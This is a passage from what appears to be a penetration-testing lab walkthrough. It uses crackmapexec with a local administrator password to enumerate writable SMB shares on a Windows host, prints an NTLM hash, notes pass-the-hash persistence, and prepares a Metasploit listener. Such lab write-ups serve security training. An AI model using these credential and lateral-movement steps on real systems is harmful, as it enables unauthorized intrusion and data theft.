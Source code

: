 **Explanation:** NTLM hashes can be used directly for authentication, enabling you to maintain access even if the plaintext password is unknown or unavailable.

_Enumerate shared folders on the target machine to identify potentially sensitive data._

`crackmapexec smb 10.4.23.124 -u administrator -p 'sebastian' --local-auth --shares`:
```
SMB         10.4.23.124     445    EC2AMAZ-408S766  [*] Windows 10.0 Build 14393 (name:EC2AMAZ-408S766) (domain:EC2AMAZ-408S766) (signing:False) (SMBv1:False)
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] EC2AMAZ-408S766\administrator aad3b435b51404eeaad3b435b51404ee:94ebf4c21e29d139fd332a535626ad6e (Pwn3d!)
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] Enumerated shares
SMB         10.4.23.124     445    EC2AMAZ-408S766  Share           Permissions     Remark
SMB         10.4.23.124     445    EC2AMAZ-408S766  -----           -----------     ------
SMB         10.4.23.124     445    EC2AMAZ-408S766  admin           READ,WRITE      
SMB         10.4.23.124     445    EC2AMAZ-408S766  ADMIN$          READ,WRITE      Remote Admin
SMB         10.4.23.124     445    EC2AMAZ-408S766  C               READ,WRITE      
SMB         10.4.23.124     445    EC2AMAZ-408S766  C$              READ,WRITE      Default share ←
SMB         10.4.23.124     445    EC2AMAZ-408S766  IPC$            READ            Remote IPC ←
SMB         10.4.23.124     445    EC2AMAZ-408S766  public          READ,WRITE     
```

**Explanation:** Shared folder enumeration can reveal accessible directories and files that might contain valuable information or further opportunities for exploitation.

_Check the network configuration on the attacker machine to set up the Metasploit listener on the correct interface (here, `eth1`)._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.5  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:05  txqueuelen 0  (Ethernet)
        RX packets 32832  bytes 2454587 (2.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 35306  bytes 23243196 (22.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.42.2  netmask 255.255.255.0  broadcast 10.10.42.255 ←
        ether 02:42:0a:0a:2a:02  txqueuelen 0  (Ethernet)
        RX packets 67986  bytes 4052554 (3.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 68946  bytes 4317025 (4.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 147482  bytes 1021915228 (974.5 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 147482  bytes 1021915228 (974.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
